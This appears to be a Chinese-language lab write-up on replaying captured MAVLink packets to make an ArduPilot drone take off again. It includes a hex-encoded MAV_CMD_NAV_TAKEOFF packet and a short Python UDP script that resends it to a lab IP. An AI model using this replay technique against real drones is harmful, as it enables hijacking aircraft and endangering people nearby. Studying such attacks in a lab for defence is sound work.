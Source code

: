- 重放攻击原理：重放攻击的基本原理就是把以前窃听到的数据原封不动地重新发送给接收方。很多时候，网络上传输的数据是加密过的，此时窃听者无法得到数据的准确意义。但如果他知道这些数据的作用，就可以在不知道数据内容的情况下通过再次发送这些数据达到欺骗接收端的目的。

##### 操作实现：

通过在无人机网络上执行数据包嗅探，攻击可以获得MAVLink数据包。常见的MAVLink数据包有160种；这些分组在MAVLink有效载荷中发送UAV状态信息或GCS命令。通过分析要传输的数据包，可以识别无人机当前是否在飞行、电池状态以及正在执行的任务。

根据这些信息，攻击者可以识别无人机的实际状态，并可以通过向其发送恶意数据包来禁用无人机。

使用wireshark截取ardupliot和QGC通信时的数据包，筛选出含有对无人机进行控制的数据包(此处以起飞命令'take off'为例)，截取数据包后，读取takeoff数据包的16进制流，直接进行重放，即通过python的sockt通信，将控制指令包原封不动地发送给无人机，以达到使无人机重复执行已经执行过的指令(take off)的目的。

首先截取COMMAND_LONG的MAV_CMD_NAV_TAKEOFF数据包，导出为hex流

![image-20230503135422428](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305031354706.png)

![image-20230503135557194](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305031355332.png)

```
fd200000a6ffbe4c00000000000000000000000000000000000000000000000000000000204116000101ce28
```

```
import socket

payload = 'fd200000a6ffbe4c00000000000000000000000000000000000000000000000000000000204116000101ce28'
# 创建TCP或UDP套接字对象
# sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # for TCP
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # for UDP

# 连接到目标IP地址和端口号
sock.connect(('192.168.56.139', 5501))


# 将16进制报文转换为二进制数据并发送
bin_msg = bytes.fromhex(payload)
sock.sendall(bin_msg)
```

![image-20230503140319383](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305041423723.png)重放攻击(第一次实验截到的图，截取的LAND指令不知道为什么无人机变成转圈了。。。)

![image-20230504120611065](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305041206266.png)

​                                                       图一：无人机正常接收GCS的起飞指令

![image-20230504120657064](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305041206246.png)

​                                                      图二：无人机正常接收GCS的落地指令

![image-20230504120754352](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305041423884.png)

​                                 图三：经过重放攻击后，无人机又开始起飞(无人机收到重放指令take off的影响)

